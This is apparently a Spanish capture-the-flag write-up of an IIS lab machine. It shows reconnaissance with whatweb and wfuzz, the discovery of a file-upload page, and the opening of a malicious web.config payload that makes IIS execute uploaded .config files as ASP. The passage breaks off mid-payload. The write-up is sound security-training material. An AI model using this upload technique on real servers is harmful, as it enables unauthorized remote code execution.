 #### Whatweb {-}

```bash
whatweb http://10.10.10.93
```

Estamos en frente de un IIS

#### Analyzando la web con Firefox {-}

Vemos una imagen de Merlin ;)

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.93/FUZZ
```

Encontramos una routa 
```bash
 uploadedFiles 
```
, probamos con una extension 
```bash
 .aspx 
```
 porque es un IIS

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.93/FUZZ.aspx
```

Encontramos una routa 
```bash
 transfer.aspx 
```


Si la analyzamos con firefox, vemos una pagina que nos permite subir ficheros.
## Vulnerability Assessment {-}

### Vulnerabilidad IIS en file upload {-}

Buscamos en internet sobre la busqueda 
```bash
 iis upload exploit 
```
. Encontramos una pagina interesante en [ivoidwarranties](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/).
Uploadeando un fichero 
```bash
 web.config 
```
 podriamos ejecutar comandos a nivel de systema.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
```